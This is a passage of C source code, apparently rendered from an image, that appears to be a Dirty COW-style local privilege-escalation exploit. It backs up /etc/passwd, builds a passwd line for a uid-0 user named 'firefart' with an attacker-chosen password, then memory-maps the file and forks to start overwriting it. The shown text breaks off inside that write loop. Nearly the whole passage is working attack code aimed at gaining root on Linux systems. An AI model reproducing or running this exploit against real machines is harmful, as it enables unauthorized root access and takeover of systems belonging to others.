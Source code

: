 ```c

  printf("%s successfully backed up to %s\n",
         from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0)
  {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2)
  {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  }
  else
  {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n", (unsigned long)map);
  pid = fork();
  if (pid)
  {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l = strlen(complete_passwd_line);
    for (i = 0; i < 10000 / l; i++)
    {
      for (o = 0; o < l; o++)
      {
```